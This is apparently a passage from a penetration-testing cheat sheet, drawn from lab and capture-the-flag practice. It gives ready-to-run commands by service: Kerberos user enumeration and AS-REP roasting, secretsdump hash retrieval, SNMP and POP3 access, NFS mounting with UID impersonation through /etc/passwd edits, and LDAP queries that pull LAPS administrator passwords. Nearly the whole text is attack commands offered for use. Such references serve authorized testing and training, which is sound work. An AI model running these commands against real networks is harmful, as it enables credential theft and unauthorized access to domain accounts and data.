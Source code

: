 #### Kerberos (88)

```shell
kerbrute userenum --dc [DOMAIN] -d [DOMAIN] [WORDLIST]    # enum user
GetNPUsers.py [DOMAIN]/[USERNAME] -request -no-pass -dc-ip [IP_ADDR]    # get user that does not require kerberos preauth
secretsdump.py -dc-ip [IP_ADDR] [DOMAIN].local/[USERNAME]:[PASSWORD]@[IP_ADDR]    # retrieve all of the password hashes
```

Ref: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

#### SNMP (161 UDP)

```shell
snmpwalk -v 2c [IP_ADDR] -c public > [OUTFILE]
snmp-check [IP_ADDR]
```

#### POP3 (110 & 995)

```shell
telnet [IP_ADDR] [PORT]
USER [USERNAME]
PASS [PASSWORD]
list    # get list of email
retr [#]    # no. of email to read
quit
```

#### Network File System (111 & 2049)

```shell
showmount -e [IP_ADDR]
mount -o nolock [IP_ADDR]:/home ~/home/
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
mount -t nfs -o vers=3 [IP_ADDR]:/[Remote_Folder] [Local_Folder]/

-------Imitating uuid 1014-------
adduser pwn
sed -i -e 's/1001/1014/g' /etc/passwd
cat /etc/passwd | grep pwn
su pwn
```

#### LDAP (389 & 636)

```shell
ldapsearch -H ldap://[IP_ADDR] -x
ldapsearch -H ldap://[IP_ADDR] -x -s base namingcontexts
ldapsearch -H ldap://[IP_ADDR] -x -b "DC=htb,DC=local"
ldapsearch -H ldap://[IP_ADDR] -x -b "DC=htb,DC=local" '(objectClass=Person)'
ldapsearch -H ldap://[IP_ADDR] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName |grep sAMAccountName
ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" '(name=[group_name])'
ldapsearch -H ldap://10.10.11.174 -D 'support\[USERNAME]' -w '[PASSWORD]' -b "DC=support,DC=htb" '(objectClass=Person)'
ldapsearch -v -x -D fmcsorley@hutch.offsec -w [password] -b "DC=hutch,DC=offsec" -H ldap://192.168.132.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
GetNPUsers.py [domain_name]/[Username(optional)]:[Password(optional)] -dc-ip [IP_ADDR] -request     # Eg: GetNPUsers.py scrm.local/ -dc-ip 10.10.11.168 -request
GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request -no-pass -userfiles username.txt
```
